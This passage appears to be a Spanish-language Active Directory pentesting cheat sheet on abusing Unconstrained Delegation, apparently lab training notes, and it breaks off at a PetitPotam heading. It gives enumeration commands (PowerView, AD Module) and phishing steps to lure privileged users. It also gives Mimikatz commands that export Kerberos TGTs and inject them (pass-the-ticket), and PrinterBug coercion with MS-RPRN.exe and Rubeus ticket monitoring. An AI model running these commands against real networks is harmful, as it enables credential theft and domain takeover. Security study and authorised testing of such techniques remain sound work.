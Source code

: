 ```
### Enumerar computadoras con "Unconstrained Delegation" habilitado
### PowerView
Get-DomainComputer -UnConstrained
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

### AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
#### Explotación - Phishing

1. Comprometer servidor o cuenta de usuario(servicio) "Unconstrained delegation" habilitado 
2. Engañar a un administrador de dominio u otro usuario con privilegios elevados para que se conecte a un servicio en el servidor "Unconstrained delegation"
3. Después de la conexión, exportar los TGT
4. Reusar el TGT, por ejemplo, mediante PTH

```
### Privilege Escalation - Unconstrained Delegation
### Exportar los TGT
### Extrae y muestra los tickets de Kerberos (TGT y TGS) del sistema
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'

### Pass The Ticket
### Realiza PTT inyectando un ticket de Kerberos en el proceso actual
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

Por defecto, si se intenta acceder a cualquier archivo compartido es una autenticación, esto puede ayudar a realizar un ataque de Ingeniería Social para explotar Unconstrained Delegation.
#### Explotación - Coerced Authentication
##### PrinterBug

- ¿Cómo engañamos a un usuario con privilegios elevados para que se conecte a una máquina con delegación no restringida? PrinterBug
- Una característica de MS-RPRN que permite a cualquier usuario de dominio (Usuario Autenticado) puede forzar a cualquier máquina (ejecutando el servicio Spooler) a conectarse en segundo lugar a una máquina de la elección del usuario de dominio
- Solo se puede aprovechar si está haciendo uso del servicio Print Spooler
- La mayoría de veces el servicio Print Spooler es desactivado en el DC

```
### Forzar autenticación de us-dc sobre us-web
### MS-RPRN.exe (https://github.com/leechristensen/SpoolSample)
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local

### Capturar el TGT de us-dc$ en us-web
### Rubeus
.\Rubeus.exe monitor /interval:5
```

- El evento de inicio de sesión que Rubeus utiliza para supervisar los TGT es ``4624`` (Account Logon)
##### PetitPotam
